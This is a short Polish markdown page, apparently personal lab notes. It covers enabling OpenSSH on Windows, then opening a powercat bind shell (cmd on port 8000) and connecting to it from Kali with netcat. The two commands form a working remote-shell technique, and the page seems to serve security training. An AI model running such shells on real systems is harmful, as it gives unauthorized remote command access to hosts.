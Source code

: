 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Zzz

\*\*Win\*\*

instalujemy openssh

1\. Start

2\. Feature

3\. Add a feature

4\. Install OPEN SSH SERVER

Uruchamiamy

1\. Services

2\. Open SSH Server

```python
. .\powercat.ps1
powercat -l -p 8000 -e cmd -t 360
```

**Kali**

```python
nc 10.20.10.4 8000
```
